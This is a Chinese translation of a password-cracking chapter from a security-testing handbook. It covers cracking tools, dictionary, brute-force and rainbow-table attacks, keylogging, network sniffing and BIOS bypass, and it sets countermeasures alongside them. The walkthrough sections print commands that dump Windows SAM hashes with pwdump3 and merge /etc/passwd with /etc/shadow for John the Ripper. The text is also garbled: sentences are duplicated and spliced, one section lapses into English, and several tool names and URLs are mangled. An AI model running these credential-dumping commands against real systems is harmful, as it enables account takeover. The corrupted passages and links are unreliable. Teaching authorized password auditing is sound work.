*推断*（Inference）是根据你了解的关于用户的信息（例如她的出生日期、最喜欢的电视节目或电话号码）猜测密码。这听起来很愚蠢，但犯罪分子经常通过猜测来确定受害者的密码。

防止推断攻击的最佳防御是教导用户创建安全的密码，这些密码不应包含任何与他们关联的信息。在缺乏密码复杂度过滤的情况下，通过技术控制并不总是容易执行这种实践，因此你需要健全的安全策略以及持续的安全意识和培训来提醒用户创建安全密码的重要性。

## 弱身份验证

外部攻击者和恶意内部人员可以利用不需要密码即可登录的老旧或不安全的操作系统来获取（或避免拥有）密码。未配置使用密码的手机或平板电脑也是如此。

## 绕过身份验证

在提示密码的操作系统（如 Windows 9x）上，你可以按键盘上的 `Esc` 键直接进入。好吧，现在很难找到任何 Windows 9x 系统，但对于任何配置为跳过登录界面的操作系统（无论新旧）也是如此。进入后，你可以在地方找到存储的密码。

## 应对措施

防止弱身份验证的唯一真正防御是确保操作系统在启动时需要密码。当前的认证系统（如 Kerberos 和目录服务，如 Active Directory）加密用户密码或不在网络上传输密码，这增加了额外的安全层。升级到最新版本的 Linux 或 macOS。


## 使用高技术工具破解密码

高技术密码破解涉及一个程序通过确定所有组合来尝试猜测密码。这些技术方法在访问计算机和数据库文件后大部分是自动化的。

主要的密码破解方法是字典攻击、暴力破解和彩虹攻击。你将在后续章节中了解它们是如何工作的。

## 密码破解软件

你可以使用各种密码破解工具破解组织的操作系统和应用程序密码：

- Brutus (www.hoobie.net/brutus) 破解 HTTP、FTP、Telnet 等登录。
- Cain & Abel (www.oid.it/cain.html) 破解 ML 和 NT LanManager (NTLM) 哈希、Windows RDP 密码、Cisco IOS 和 PIX 哈希、VNC 密码、RADIUS 哈希等。（哈希是密码的加密表示。）
- Elcomsoft 分布式密码恢复 (https://www.elsoft.com/edpr.html) 以分布式方式破解 Windows、Microsoft Office、PGP、Adobe、iTunes 以及许多其他密码，一次可连接 10000 台网络计算机。此外，该工具利用图形处理器 (GPU) 视频加速 ElSoft Wireless Auditor 工具，使破解速度快 50 倍。（我将在第 10 章中介绍 ElSoft Wireless Auditor 工具。）
- Elcomsoft 系统恢复 (https://www.elsoft.com/esr.html) 从可启动光盘崩溃或重置 Windows 密码、设置权限以及重置密码过期时间。该工具非常适合笔记本电脑没有全磁盘加密的情况。
- John the Ripper (http://openwall.com/john) 破解 Linux/Unix 和 Windows 密码。
- ophrack (http://rack.sourceforge.net) 使用可启动光盘上的彩虹表破解 Windows 密码。彩虹表是预计算的密码哈希，通过这些哈希与从特定测试密码获得的哈希进行比较，可以加速破解过程。


>> Proactive Password Auditor (https://www.elcomsoft.com/ppa.html) 可针对提取的 LM 和 NTLM 密码哈希值进行暴力破解、字典破解和彩虹表破解。

>> Proactive System Password Recovery (https://www.elcomsoft.com/pspr.html) 能够恢复几乎任何存储在本地的 Windows 密码，如登录密码、WEP/WPA 口令、SYSKEY 密码以及 RAS/拨号/VPN 密码。

>> pwdump3 (www://openwall.com/passwords/windows-pwdump) 从 SAM（安全账户管理器）数据库中提取 Windows 密码。

>> RainbowCrash (http://project-rainbowcrack.com/) 通过彩虹表快速对 LanManager (LM) 和 MD5 哈希进行崩溃性破解。

>> THC-Hydra (https://tools.kali.org/password-attacks/hydra) 可用于破解 HTTP、FTP、IMAP、SMTP、VNC 等许多协议的登录。

这些工具中的某些工具需要对系统进行物理访问。你通过要求密码破解需要有价值的物理访问，实际上是在进行测试。如果黑客可以获得你系统的物理访问和密码，你所担心的不仅仅是基础的信息安全问题，对吧？确实，但这种访问是完全可能的！如果是夏季实习生、心怀不满的员工或带有恶意意图的外部供应商呢？未加密的笔记本电脑丢失或被盗并落入心怀不轨之者手中的风险，应该是足够的理由。


要通理解上述密码破解程序的通用工作原理，你需要了解密码是如何加密的。密码存储在计算机上时，通常使用 SHA2 或 MD5 等加密或单向哈希算法进行加密。然后，哈希被表示为固定长度的加密字符串，这些字符串始终以相同的字符串表示相同的密码。对于所有实际用途来说，这些哈希都是不可逆的，因此从理论上讲，密码无法解密。此外，某些密码（如 Linux 中的密码）具有一个称为“盐”（salt）的随机值，以产生随机性。这个值防止了两个人的密码具有相同的哈希值。

在 Windows 中，获取密码哈希后，攻击者可以利用称为“传递哈希”（pass hash）的攻击，将哈希而非实际密码发送到系统进行认证。你可以在此处找到目的关于 Metasploit 和 pspexec 模块的优秀文章：https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/


# 第 8 章 密码 103

密码破解工具获取一组已知的密码并运行密码哈希算法。生成的加密哈希将以闪快的速度与从原始密码数据库中提取的密码哈希进行比较。当新生成的哈希与原始数据库中的哈希找到匹配项时，密码就被破解了。这个过程非常简单。

其他密码破解程序尝试使用预定义的用户 ID 和密码进行登录。这是许多基于字典的破解工具的工作原理，例如 Brutus (www.hoobie.net/brutus) 和 SQLPing (www.security.com/downloads)。我将在第 15 章和第 16 章介绍 Web 应用和数据库密码。

受到破解工具攻击的密码最终会失败。你和坏人拥有相同的工具。你希望从安全评估和恶意攻击中受益。你希望在坏人之前发现密码的弱点。在本节中，我将向你展示评估 Windows 和 Linux/Unix 密码的一些方法。


## 了解你的密码在哪里

密码存储位置随操作系统而异。Windows 通常将密码存储在这些位置：

- 安全账户管理器 (SAM) 数据库 (c:\windows\system32\config)
- 存储在本地或域控制器上的 Active Directory 数据库文件 (ntds.dit)。

Windows 还将密码存储在 c:\winnt\repair 目录下的 SAM 文件备份中。

某些应用程序将密码存储在注册表中，或作为硬盘上的明文文件。对“password”进行简单的注册表或文件系统搜索可能会发现你正在寻找的内容。

Linux 和其他 Unix 变体通常将密码存储在这些文件中：

- /etc/passwd（所有人可读）
- /etc/shadow（仅系统和 root 账户可访问）
- /etc/security/passwd（仅系统和 root 账户可访问）

104 第 2 部分 让安全测试运行起来

在尝试破解密码时，关联的用户可能会被锁定，这可能会中断你的用户。如果你的操作系统、数据库或应用程序中启用了入侵者锁定功能，请小心。如果启用了锁定，你可能会锁定部分或全部计算机/网络账户，导致用户面临拒绝服务的情况。

## 字典攻击

字典攻击将一组已知的字典类型单词（包括许多常用密码）与密码数据库进行快速比较。该数据库是一个文本文件，包含数百甚至数千个字典单词，通常按字母顺序排列。假设你从下列表中的一个网站下载了字典文件。普渡渡大学网站的英语字典文件每行一个单词，从 aoth 开始一直到 zygote。

许多密码破解工具使用一个由你创建或从网上下载的独立字典。以下是其他提供字典文件的流行网站：

- ftp://cerias.purdue.edu/pub/dict
- www.outpost.com/files/WordLists

字典攻击将一组包含许多常用密码的已知字典类型单词与密码数据库进行快速比较。该数据库是一个包含数百乃至数千个字典单词的文本文件，通常按字母顺序排列。假设你从下列表中的某一个网站下载了字典文件。普渡大学网站的英语字典文件每行一个单词，从 aoth 开始一直到 zygote。

许多密码破解工具使用一个由你创建或从网上下载的独立字典。以下是其他提供字典文件的流行网站：

- ftp://cerias.purdue.edu/pub/dict
- www.outpost.com/files/WordLists

字典攻击的效果取决于你提供的字典。字典攻击的效果取决于你提供的字典。这个值值防止了两个人的密码具有相同的哈希值。此外，某些密码（如 Linux 中的密码）具有一个称为“盐”（salt）的随机值，以产生随机性。这个值防止了两个人的密码具有相同的哈希值。

在 Windows 中，获取密码哈希后，攻击者可以利用称为“传递哈希”（pass hash）的攻击，将哈希而非实际密码发送到系统进行认证。你可以在此处找到目的关于 Metasploit 和 pspexec 模块的优秀文章：https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/

字典攻击的效果取决于你提供的字典。字典攻击的效果取决于你提供的字典。这个值值防止了两个人的密码具有相同的哈希值。

字典攻击的效果取决于你提供的字典。字典攻击的效果取决于你提供的字典。这个值值防止了两个人的密码具有相同的哈希值。

字典攻击的效果取决于你提供的字典。字典攻击的效果取决于你提供的字典。这个值值防止了两个人的密码具有相同的哈希值。

## 暴力破解

Brute-force attacks can crack practically any password, given sufficient time. Brute-force attacks try every combination of numbers, letters, and special characters until the password is discovered. Many password-cracking utilities let you specify the character sets, password length to try, and mask attack. Figure 8-1 shows some example brute-force.

Attack type: Brute-force

| User name | User ID | Computer | Hash-1 | Password | Description |
| :--- | :--- | :--- | :--- | :--- | :--- |
| admin | | | | | |


Brute-force-1: Brute-force password-cracking options in Proactive Auditor.

- 2019.05.10 16:47:04 Current user: TEST123
- 2019.05.10 16:47:04 Current user has administrator rights
- 2019.05.10 16:47:04 Current user has access to login programs

Protected Password Auditor. © 2003-2013 ElSoft Co., Ltd.

A brute-force test can take a while, depending on the number of accounts, their associated password complexities, and the speed of the computer running the cracking software. As powerful as brute-force testing is, it can take forever to exhaust all possible combinations, which isn't practical in every situation.

Smart attackers attack slowly or at random times that aren't as predictable or obvious in the system log files. Some malicious users even call the IT help desk to attempt a reset of the account they locked out This social engineering technique could be a major issue, if the organization has no (or minimal) mechanisms to verify that locked-out users are who they say.

Can an expiring password devalue a hacker's attack and render password cracking useless? Yes. After the password is changed, the cracking must start again if the hacker wants to test all combinations. This scenario is not a big fan of forcing users to change their passwords often. Shortening the change interval can reduce the risk of passwords being cracked but can also be potentially unfavorable in your business and end creating the opposite of the effect you're going for. You have to strike a balance among security, convenience, and usability. In many situations, it is unreasonable to require password changes every 6 to 12 months (or especially) after a suspected compromise. Keep in mind that there is a direct relationship between password change interval and password length. The longer the interval is, the longer the password needs to be.

106 第 2 部分 Protecting Password Security in Motion


详尽的密码破解尝试通常并不是必要的。大多数密码都相当脆弱。即使是最低的密码要求（例如密码长度），也能为你的测试提供帮助。你可能可以使用其他工具或通过你的网络浏览器发现安全策略信息（有关操作系统安全测试工具和技术请参见第4部分，有关网站和应用程序测试的信息请参见第15章）。如果你发现了这些密码策略信息，就可以为你的破解程序配置更精确的破解参数，这通常会产生更快的结果。


提示

## 彩虹表攻击

彩虹密码攻击利用破解技术可以更快速地破解 LM、NTLM、Cisco PIX 和 MD5 的各种密码哈希值，且成功率极高（接近100%）。彩虹攻击中密码破解速度之所以快，是因为哈值是预先过的；它们不需要像字典攻击和暴力破解方法那样逐个生成。


警告

与字典攻击和暴力破解不同，彩虹攻击无法破解无限长度的密码哈希。目前 LM 哈希的最大长度为14个字符，Windows Vista 和 7（也称为 NT）的最大长度为16个字符（基于字典）。彩虹表可以通过 ophcrack 网站（http://ophcrack.sourceforge.net）购买和下载。之所以有长度限制，是因为只要时间足够，就会创建足够数量的表格。到那时，计算机和哈希标准可能会有不同的认证机制和哈希标准，包括一组新的需要应对的漏洞。该领域 IT 专业人员的职业安全感在不断增长。

如果你有一组良好的彩虹表，例如 ophcrack 网站和 ProjectRainbowCrack（http://project-rainbow.com）提供的，你可以在几秒、几分钟或几小时内破解密码，而字典和暴力破解方法需要几天、几周或数年。

## 使用 pwdump3 和 John the Ripper 破解 Windows 密码

以下步骤使用了我最喜欢的两个工具来测试 Windows 系统上当前密码的安全性：

- pwdump3（从 Windows SAM 数据库中提取哈希）
- John the Ripper（破解 Windows 和 Linux/Unix 密码哈希）

以下测试需要对你的 Windows 独立工作站或服务器拥有管理员权限：

- 1. 在 Windows C 盘根目录下创建一个名为 `passwords` 的新目录。

- 2. 下载并安装一个解压缩工具（如果你还没有的话）：

7-Zip (https://www.7-zip.org/) 是一款免费的解压缩工具。Windows 也包含内置的 `.zip` 文件处理功能，虽然有点臃肿。

- 3. 下载、提取并安装以下软件到你创建的目录中（如果你的系统中还没有的话）：

- pwdump3：从 www.openwall.com/passwords/microsoft-windows-nt-2003-vista-7 下载文件。
- John the Ripper：从 www.openwall.com/john 下载文件。

- 4. 输入命令运行 `pwdump3` 并将其输出重定向到名为 `cracked.txt` 的文件中。

```
c:\passwords\pwdump3 > cracked.txt
```

该文件捕获了使用 John the Ripper 破解的 Windows SAM 密码哈希。图 8-2 显示了 `cracked.txt` 文件的内容，其中包含 Windows SAM 数据库哈希。


| C:\WINDOWS\system32 | |
| :--- | :--- |
| C:\passwords\cracked.txt | |
| Administrator:500:1122:0000:aad3b4c5d5f6:778899aa0aabbcc112233445566778899aad0cc112233445566778899aad0cc112233445566778899aad0cc112233445566778899aad0cc | ... |
| Guest:501:1122:0000:aad3b4c5d5f6:778899aa0aabbcc112233445566778899aad0cc112233445566778899aad0cc112233445566778899aad0cc112233445566778899aad0cc | ... |

- 5. 输入命令运行 `John the Ripper` 来处理 Windows SAM 密码哈希，以显示破解后的密码：

```
c:\passwords\john cracked.txt
```

这个过程——如图 8-3 所示——可能需要几秒钟或几天时间，取决于用户数量及其关联密码的复杂度。我的示例仅花了五秒就破解了五个弱密码。

# 第 2 部分让安全测试运行起来

图 8-3：
使用 John the Ripper 破解的密码文件哈希。

```
C:\windows\system32>john cracked.txtloaded 5 passwords, with no salts <
Status: 0
CRACKED
```

## 使用 John the Ripper 破解 Unix/Linux 密码

John the Ripper 也可以破解 Unix/Linux 密码。你需要对系统拥有 root 权限并访问 `/etc/passwd` 和 `/etc/shadow` 文件。执行以下步骤破解 Unix/Linux 密码：

- 1. 从 www.openwall.com/john 下载文件。
- 2. 使用以下命令提取程序（当前文件名）：

```
[root@localhost kaver]#tar -zxf john-1.8.0.xz
```

你可以在 Windows 上操作。

- 3. 进入创建的 `src` 目录，输入以下命令：

```
make generic
```

- 4. 进入 `run` 目录，输入以下命令合并密码和 shadow 文件：

```
./unshadow /etc/passwd /etc/shadow > cracked.txt
```

- 5. 输入以下命令开始破解：

```
./john cracked.txt
```

当 John the Ripper 完成时（可能需要一些时间），输出类似于图 8-3。

## 数字密码

典型的密码总共使用了 128 个字符（技术上只使用了 126 个，不包括回车符）。一个随机的 8 位密码可以产生 63,527,897,748,485,376 种组合。

包含所有可能的密码的文本文件将需要百万 TB。如果只包含最现实的 95 个 ASCII 字母、数字和标准标点符号，这样的文件仍将占据数千 TB。这些存储需求迫使字典攻击和暴力破解程序实时生成密码组合，而不是从文本文件中读取所有可能的组合。这就是为什么彩虹攻击比字典攻击和暴力破解更有效。


## 破解文件

大多数密码保护的文件可以在几秒或几分钟内被破解。你可以向用户和管理层演示这种具有“惊叹因素”的安全漏洞。这里有一个现实世界中可能发生的假设场景：

- 1. 你们的首席财务官 (CFO) 想要向公司成员发送一些包含 Microsoft Excel 表格的机密财务信息。
2. 她在 Excel 保存文件过程中通过为表格设置密码来保护该电子表格。
3. 为了保险起见，她使用 WinZip 压缩了文件并添加了密码，以确保*真正*安全。
4. CFO 将电子表格作为邮件附件发送，并假设邮件会到达目的地。

财务顾问的网络具有内容过滤功能，它会监控入站邮件的关键词和文件附件。遗憾的是，财务公司的网络管理员正在查看内容过滤系统中的收到的内容。

- 5. 这名恶意的网络管理员找到了带有机密附件的邮件，保存了附件，并发现它是受密码保护的。
6. 网络管理员记得一个名为 Advanced Archive Recovery (www.microsoft.com/archpr.html) 的优秀密码破解工具，它可以帮到他，于是他开始破解密码。

破解受密码保护的文件就是如此！网络管理员需要做的就是将机密电子表格转发给他的哥们或公司的竞争对手。

如果你在 Advanced Archive Recovery 中仔细地选择正确的选项，就可以大幅缩短你的测试时间。如果你知道密码少于五个字符或全为小写，你可以将破解时间减半。


提示

我建议对你使用内容过滤或网络分析工具捕获的文件进行这些文件密码破解测试。这种方法是判断用户是否遵守策略以及是否使用足够强密码来保护他们发送的敏感信息的好方法。

## 应对措施

防止弱文件密码保护的最佳防御是要求用户使用更强形式的文件保护，例如在需要时使用 Pretty Good Privacy (PGP) 或 WinZip 内置的高级加密标准 (AES) 加密。理想情况下，你不希望依赖用户来决定他们应该使用什么来保护敏感信息，但依赖他们总比什么都不做好。要强调，文件加密机制（如受密码保护的 zip 文件）只有在用户保持密码保密，且从不以不明文传输或存储（例如在单独的邮件中）时才是安全的。

如果你担心不安全的邮件传输，请考虑使用内容过滤系统或数据泄露系统在你的邮件服务器上拦截所有未经保护的外发邮件附件。

## 理解其他破解密码的方法

多年来，我发现了通过技术手段和社会工程破解（或捕获）密码的其他方法。

## 击键记录

捕获密码的最佳技术之一是远程击键记录——使用软件或硬件在按键输入时记录按键情况。

> 小心击键记录。即使出于良好意图，如果处理不当，监控员工会引发各种法律问题。与你的法律顾问讨论你将要做什么，寻求她的指导，并获得高层的批准。

## 日志工具

对于击键记录工具，你可以评估应用程序的日志文件以查看人们在使用什么：

- 击键记录应用程序可以安装在被监控的计算机上。我建议你查看 SpectorSoft 开发的 Spectre 360 (www.spect360.com)。互联网上有几十种此类工具。
- 基于硬件的工具，例如 KeyGhost (www.keyghost.com)，安装在键盘和计算机之间或替换键盘。

> 安装在共享计算机上的击键记录工具可以捕获每个登录用户的密码。

## 应对措施

防止在你的系统上安装击键记录软件的最佳防御是使用反恶意软件程序或类似的端点保护软件来监控主机。它并非万无一失，但可以有所帮助。对于物理击键记录器，你需要通过肉眼检查每个系统。

黑客可能安装击键记录软件，这是确保你的用户没有下载并安装勒索软件或在不受自的邮件中打开漏洞的另一个原因。考虑通过在 Windows 本地或组安全策略中设置适当的用户权限来保护你的桌面。或者，你可以使用商用锁定程序，例如适用于 Windows 的 Fortries 101 (www.fortisrand.com) 或适用于 Windows、Linux 和 macOS X 的 Deep Freeze Enterprise (www.faronics.com/products/deep-freeze/enterprise)。另一种仍属于此类的技术是 Carbon Black 的“正向安全”白名单应用程序，称为 CB Protection (https://www.carbonblack.com/products/cb-protection)，它允许你配置在任何给定系统上可以运行哪些可执行文件。它旨在对抗恶意软件，但无疑可以用于此处。


## 弱密码存储

许多遗留和独立应用程序——如电子邮件、拨号网络连接和会计软件——将密码存储在本地，这使得它们容易被破解。通过执行基础文本搜索，我发现机器本地硬盘上以明文形式存储了密码。你甚至可以通过一个名为 FileLocator (https://www.mythis.com) 的程序来自动化此过程。

## 搜索

你可以尝试使用你最喜欢的文本搜索工具——例如 Windows 搜索功能、`findstr` 或 `grep`——在你的计算机上搜索 `password` 或 `passwd`。你可能会对系统中的内容感到震惊。某些程序甚至会将密码写入磁盘，或将其存储在内存中。弱存储是犯罪分子的梦想。如果可能，请阻止它。我的意思并不是说你应该立即逃去并使用云密码管理器。然而，正如我们多年年来所见，那些系统也会被破解！


## 应对

消除弱密码存储的唯一可靠方法是仅使用安全存储密码的应用程序。这种做法可能并不实际但是它是密码安全的唯一保证。另一种选择是指示用户在提示时不存储他们的密码。在升级应用程序之前，联系你的软件供应商查看它是如何管理密码的，或者寻找第三方解决方案。

## 网络分析器

网络分析器嗅探穿越网络的数据包，这是坏人在获取计算机控制权、接入无线网络或物理网络访问以设置网络分析器时所做的。如果他们获得了物理访问权限，可以寻找墙上的网络插座并插入。

## 测试

图 8-4 显示了通过网络分析器的视角看到的清晰的密码。此图展示了 Cain & Abel (www.oxid.it/cain.html) 如何在几小时内嗅探到跨网络的数千个密码。正如你在左侧面板所示，这些明文密码漏洞适用于 FTP、Web、Telnet 等。（实际用户名和密码已模糊处理以保护。）

图 8-4：使用 Cain & Abel 捕获跨网络的密码。



如果流量没有通过某种形式的链接（如虚拟网络、安全 Shell 或安全套接层）进行传输，它就会受到攻击。

> 记住

第 2 部分 让安全测试运行


Cain & Abel 是一款密码破解工具，同时也具备网络分析功能。你也可以使用常规的网络分析器，例如商业产品 Omnipeek（https://www.savvius.com）和 CommView（https://www.tamos.com/products/commview），以及免费的开源软件 Wireshark（https://www.wireshark.org）。通过网络分析器，你可以以多种方式搜索明文流量。例如，为了捕获 POP3 密码流量，你可以设置一个过滤器和一个触发器来搜索 PASS 命令。当网络分析器在数据包中看到 PASS 命令时，它就会捕获该特定数据。

网络分析器要求你在网络的集线器（hub）分段上捕获数据，或者通过交换机上的监控/镜像/span 端口进行捕获。否则，你将看不到其他任何在网络中传输的数据。请检查你的交换机用户指南，查看它是否具有监控或镜像端口以及如何配置这些的说明。你可以将网络分析器连接到防火墙外侧的集线器上。你只会捕获进入或离开你网络的数据包——而不是内部流量。我在第 9 章中详细介绍了这种网络基础设施的攻击。

## 应对措施

以下是针对网络攻击的一些良好防御方法：

- >> 在你的网络中使用交换机，而不是集线器。以太网集线器已成为过去，但我仍然偶尔看到它们被使用。如果你必须在网络分段上使用集线器，适用于 Unix/Linux 系统的程序 snifledet（http://sniffledet.sourceforge.net）和适用于 Windows 的 PromisDetect（http://security.nu/toolbox/promisdetect）可以检测处于混杂模式的网卡（接受所有数据包，无论其目标是本地机器还是不是）。混杂模式下的网卡意味着网络上可能运行着网络分析器。

- >> 确保无人监管的区域（如空旷的大堂或培训室）没有活跃的网络连接。一个以太网端口就是某人访问你内部网络的全部。

- >> 不要让任何没有业务需求的人物理接触你的交换机或防火墙外侧的网络。通过物理接触，黑客可以连接到交换机监控端口，或对防火墙外的未经过交换的网络分段进行分接，然后捕获数据包。


## 弱的 BIOS 密码

大多数计算机 BIOS（基本输入输出系统）设置允许使用开机密码或设置密码，以保护存储在 CMOS 芯片中的计算机硬件设置。以下是绕过这些密码的一些方法：

- 你通常可以通过拔掉 CMOS 电池或更改主板上的跳线来重置这些密码。

- 网上和计算机制造商处提供 BIOS 密码的密码破解工具。

- 如果访问硬盘是你的最终目标，你可以将硬盘从计算机中取出并安装到另一台电脑上，就可以了。这种技术是保护 BIOS/开机密码的一种极佳方法，对于丢失或被盗的笔记本电脑，并不是有效的应对措施。


各种厂商设备的默认系统密码列表，请查看 https://www.cirt.net/passwords。

取决于你的硬件设置，黑客攻击和计数应对措施存在许多变体。如果你计划破解你自己的密码，请检查说明书中的信息，或参考 https://searchenteredesktop.techtarget.com/tutorial/BIOS-password-hacking 中的 BIOS 密码破解指南。如果保护硬盘上的信息是你的最终目标，全盘（有时称为整体）加密是最佳方法。我在第 11 章中深入介绍了移动相关的密码破解。消息是，较新的计算机（大约五年前）使用了一种新类型的 BIOS 统一扩展固件接口（UEFI），它对引导级别的系统破解尝试的抵抗力强得多。尽管如此，一个弱密码可能就足以让系统利用。

## 悬空中的弱密码

坏人经常利用刚由网络管理员或帮助台创建或重置的用户账户。新员工可能需要创建新账户，或者出于安全测试之目的。如果用户忘记密码或账户因尝试失败而被锁定，则可能需要重置账户。

## 脆弱性

以下是用户账户可能脆弱的原因：

- 当用户账户被重置时，它们通常是容易破解或广为人知的密码（例如用户的用户名或“password”一词）。

重置用户账户与更改密码之间的时间是入侵的绝佳机会。

- - 许多系统具有默认账户或带有弱密码或无密码的未使用账户。这些账户是首要目标。

## 应对措施

防御悬空密码攻击的最佳方法是稳健的帮助台策略和程序，防止在新账户生成和密码重置过程中的任何时间点出现弱密码。以下也许是克服这种脆弱性的最佳方法：

- - 要求用户在电话中联系帮助台，或让帮助台成员立即在用户办公桌前执行重置。

- - 要求用户立即登录并更改密码。

- - 如果你需要极端的安全性，请实施更强的方法，例如挑战/响应问题、智能卡或数字证书。

- - 通过自服务工具自动重置密码，以便用户可以管理自己的大部分密码而无需他人帮助。

我在第 11 章介绍了移动相关的密码破解，在第 15 章介绍了网站/应用程序密码破解。

## 通用密码破解应对措施

一个系统的密码意味着许多系统的密码，因为许多人在每个系统上使用相同或至少相似的密码。由于由于原因，你可能希望为不同的系统考虑不同的，特别是那些保护敏感信息的系统。强密码很重要，但你需要平衡安全性和便利性。你不能指望用户记住那些极其复杂且必须每几周更改一次的密码。但你无法承受弱密码或无密码。制定一个强密码策略及配套标准——最好是每年更改一两次。


## 存储密码

如果你必须在用户可以记住的弱密码和用户必须写下的强密码之间做出选择，我建议让他们写下密码并安全存储。训练用户将书面密码存储在安全的地方——而不是键盘上或容易破解计算机文件中（例如电子表格）。用户应该将书面密码存储在任何一个位置：

- 锁的柜子或办公室保险
- 全盘加密，可以防止入侵者访问操作系统和存储在系统中的密码。（只需注意这种技术并非无懈击，正如我在第 11 章概述的那样）
- 安全密码管理工具，如 LastPass（https://www.lastpass.com）或开源软件 Password Safe（https://www.pwswafe.org/）。

再次，正如我之前提到的，这些应用程序并不是不受攻击的，但所以要小心。


不要把密码写在便利签上！人们对这种做法开玩笑，但它经常发生，而且对业务没有好处。

## 创建密码策略

作为 IT 或安全专业人员，你应该向用户展示保护密码的重要性。以下是关于如何做到的一些建议：

- 演示如何创建安全的密码。将密码称为密码短（passphrases），因为人们倾向于字面意思理解密码，而使用的安全性较低。


- 展示使用弱密码或共享密码时可能发生的情况。
- 勤奋地提高用户对社会工程攻击的防范。

执行（或至少鼓励使用）强密码创建策略，该策略应包括以下标准：

- 使用大写字母、小写字母、特殊字符和数字。千万不要只使用数字。此类密码可以被快速破解。
- 拼错单词，或从引用或句子中创建缩写。例如，ASCII 是美国信息交换标准（American Standard Code for Information Interchange）的缩写，可以作为密码的一部分。
- 使用标点字符分隔单词或缩写。
- 每 6 到 12 个月更改密码，或者在怀疑密码被泄露时立即更改。过于频繁的更改只会带来不便，并产生更多漏洞。
- 每个系统使用不同的密码。这种做法对于网络基础设施主机（如服务器、防火墙和路由器）尤为重要。使用相似的密码是可以的，只需为每种类型的系统略作区分，例如 Windows 系统使用 `SummerInTheSouth-Win10`，Linux 系统使用 `Linux+SummerInTheSouth`。
- 使用变长密码。这个技巧可以迷惑攻击者，因为他们不知道密码所需的最小或最大长度，必须尝试所有密码长度的组合。
- 不要完全依赖外观相似的字符，例如用 3 代替 E，用 5 代替 S 或用 l 代替 1。可以使用密码破解程序和字典来帮助检查此类做法。
- 在至少四五个密码之间不要重复使用同一个密码。
- 使用密码保护的屏幕保护程序。未解锁的屏幕是系统被破解的绝佳途径。即使拥有世界上最强的密码和最好的磁盘加密，如果电脑处于无人看管且屏幕解锁的状态，这一切都毫无意义。
- 不要共享密码。每个人都有自己的！
- 避免将密码存储在不安全的中央位置，例如硬盘上未受保护的电子表格。这种做法无异于自招灾难。如果你愿意，可以使用密码管理器来存储用户密码（我目前还没有）。

## 采取其他应对措施

以下是我推荐的一些密码破解对范措施：

- 启用安全审计以帮助监控和跟踪密码攻击。如果不关注攻击，你就不可能管理安全计划中的这部分。
- 测试应用程序，确保它们不会在内存中无限存储密码或将其写入磁盘。此任务的一个佳工具是 WinHex (www.winhex.com/index-m.html)。我曾使用该工具在计算机内存中搜索密码（password）、登录等关键词，并发现了一些开发者认为已从内存中清除的密码。

一些密码破解木马程序通过蠕虫或简单的邮件附件传输。如果这些恶意软件安装在你的系统中，它们对你的密码保护机制可能是致命的。最佳防御是使用 Webroot、McAfee 或 Bit9 的恶意软件防护或白名单机制。


- 保持系统补丁。在溢出或其他拒绝服务（DoS）情况下，密码可能会重置或泄露。
- 熟悉你的用户 ID。如果账户从未被使用过，请删除或禁用该账户直到需要。你可以通过手动检查或使用如 DumpSec 的工具来确定未使用的账户（https://www.systemtools.com/comasoft/tcomasoft.com，该工具可以枚举 Windows 操作系统并收集用户 ID 和其他信息）。

作为你组织的安全经理，你可以启用锁定功能来防止密码破解攻击。账户锁定是在发生多次失败登录尝试后锁定用户账户一段时间的能力。大多数操作系统（以及某些应用程序）都具有此功能。不要将其设置得太低（少于 5 次失败登录），也不要设置得太高以免给恶意用户更大的破入机会。在 5 到 50 之间设置可能有效。我通常建议设置为 10 或 15。在系统上配置锁定时，请考虑以下因素：

- 使用账户锁定来防止用户 DoS 状态的任何漏洞，要求两个不同的密码，如果你的操作系统提供该功能，则不要为第一个密码设置锁定。
- 如果你允许账户在一段时间后自动重置（通常称为入侵者锁定），请不要设置过短的时间段。30 分钟效果良好。

失败登录计数器可以增加密码安全性，并在账户遭受自动化攻击时，最大限度地减少账户锁定的整体影响。登录计数器可以在多次失败尝试后强制更改密码。如果失败登录尝试次数很高且发生在短时间内，则该账户很可能遭受了自动化密码攻击。

其他密码保护对范措施包括：

- **更强的身份验证方法：** 例如挑战/响应、智能卡、生物识别和数字证书。
- **自动密码重置：** 此功能允许用户在不涉及他人的情况下管理大多数密码问题。否则，这种支持问题将变得非常昂贵，特别是对于较大的组织而言。
- **密码保护的系统 BIOS：** 这种应对措施对于易受物理安全威胁和漏洞的服务器和笔记本电脑尤为重要。

## 加固操作系统

你可以实施各种操作系统安全措施来确保密码得到保护。

> 定期执行这些低技术和高科技的密码破解测试，以确保你的密码尽可能安全——可以作为本地和域密码每月、每季度或每半年一次审计的一部分。


## Windows

以下应对措施可以防止 Windows 密码破解：

- 某些 Windows 密码可以通过读取注册表中的明文或可破解密文获取。通过以下方法确保注册表安全：
- 仅允许管理员访问。
- 使用著名的加固实践加固操作系统，例如来自 SANS (https://www.sans.org/critical-security-controls)、NIST (https://csrc.nist.gov)、Internet 安全基准/评分工具 (https://www.cisecurity.org) 以及《Network Security For Dummies》（Cheyb Cobb 著）中的概述。
- 保持所有 SAM 数据库备份的安全。
- 禁止 Windows 为短于 15 个字符的密码存储 LM 哈希值。例如，你可以在 HKEY_LOCAL_MACHINE\SYSTEM\ControlSet\Control\lsa 下创建并将 NoLMHash 注册项设置为 1。
- 使用本地或组安全策略在创建 Windows 密码之前消除弱密码。
- 禁用 Windows 中的空会或启用 Windows 防火墙。
- 在 Windows XP 及更高版本中，在本地安全策略启用“不允许匿名枚举 SAM 账户和共享”选项。

## Linux 和 Unix

以下应对措施有助于防止 Linux 和 Unix 系统的密码破解：

- 确保你的系统使用影子密码（shadow）。
- 帮助防止弱密码。你可以使用操作系统内置的密码过滤（例如 Linux 中的 cracklib）或密码审核程序（如 npswpass 或 passwd+）。
- 检查 /etc/passwd 文件中的重复 UID 条目。攻击者可以利用这些条目获取后门访问权限。


# 在此部分 ...

针对你网络基础设施系统的弱点进行目标攻击。

发现常见的缺陷并执行影响无线网络的简单漏洞利用。

了解小型移动设备如何产生巨大的安全风险。

## 在本章中
- 选择工具
- 扫描网络主机
